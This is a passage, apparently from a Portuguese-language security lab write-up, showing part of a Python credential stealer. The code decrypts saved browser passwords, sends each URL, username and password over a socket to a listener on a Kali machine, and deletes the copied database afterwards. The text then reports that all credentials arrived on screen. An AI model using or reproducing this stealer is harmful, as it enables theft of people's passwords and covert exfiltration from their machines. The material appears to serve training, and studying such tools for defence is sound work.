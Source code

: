 ```python
        url = i[0]
        user = i[1]
        password = i[2]
        password = decrypt_pwd(password, key)
        if len(user) > 0:
            # cria a string no formato desejado
            dump = "\nURL: " + url + "\nUser: " + user + "\nPassword: " + password + "\n\n"
            # codifica em bytes
            dump = bytes(dump, "utf-8")
            # envia via socket
            s.sendall(dump)
except Exception as e:
    pass

# finaliza a conexao com o database
cursor.close()
connect.close()

# remove a copia do db
try:
    os.remove("database.db")
except Exception as e:
    pass
```

Ao iniciar o handler com o script server na máquina Kali e rodar o client no Windows, recebemos em tela todas as credenciais.

<center><img src="/std/dojo/dojo-14.png"></center>

Estas atualizações finalizam a task 05.

## Task \x06
